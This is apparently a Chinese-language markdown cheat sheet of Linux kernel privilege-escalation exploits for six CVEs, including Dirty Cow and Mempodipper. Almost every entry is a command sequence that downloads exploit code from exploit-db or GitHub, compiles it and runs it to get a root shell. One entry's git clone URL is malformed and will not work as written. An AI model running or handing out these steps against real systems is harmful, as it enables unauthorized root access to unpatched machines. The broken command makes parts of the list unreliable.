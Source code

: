 ﻿# linux kernel 内核漏洞exploit

---

## Table of Contents
 * [CVE-2010-2959](#CVE-2010-2959)
 * [CVE-2010-3904](#CVE-2010-3904)
 * [CVE-2010-4258](#CVE-2010-4258)
 * [CVE-2012-0056](#CVE-2012-0056)
 * [CVE-2016-5195](#CVE-2016-5195)
 * [CVE-2019-13272](#CVE-2019-13272)

# CVE-2010-2959
 'CAN BCM' Privilege Escalation - Linux Kernel < 2.6.36-rc1 (Ubuntu 10.04 / 2.6.32)
```
$ wget -O i-can-haz-modharden.c https://www.exploit-db.com/download/14814
$ gcc i-can-haz-modharden.c -o i-can-haz-modharden
$ ./i-can-haz-modharden
[+] launching root shell!
# id
uid=0(root) gid=0(root)
```
# CVE-2010-4258 
 Full Nelson Linux Kernel 2.6.37 (RedHat / Ubuntu 10.04)
```
$ wget -O exploit.c https://www.exploit-db.com/download/15704
$ gcc -o exp exploit.c 
$./exp
```
# CVE-2010-3904
Linux RDS Exploit - Linux Kernel <= 2.6.36-rc8
```
$ wget -O exploit.c https://www.exploit-db.com/download/15285
$ gcc -o exp exploit.c  
$ ./exp
```
  
# CVE-2012-0056
 Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)
```
$ wget -O exploit.c https://www.exploit-db.com/download/18411 
$ gcc -o mempodipper exploit.c  
$ ./mempodipper
```
  
# CVE-2016-5195
Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8
```
$ git clone https://github.com/gbonacini/CVE-2016-5195.git
$ cd CVE-2016-5195
$ make
$ ./dcow -s
```

# CVE-2019-13272
桌面环境下Linux Kernel < 5.1.17 内核漏洞提权
```
git clone https://github.com/bcoles/kernel-exploits/tree/master/CVE-2019-13272.git
cd CVE-2019-13272
gcc cve-2019-13272.c -o cve-poc
./cve-poc
```

# 内核漏洞检测工具

* [mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
* [jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)
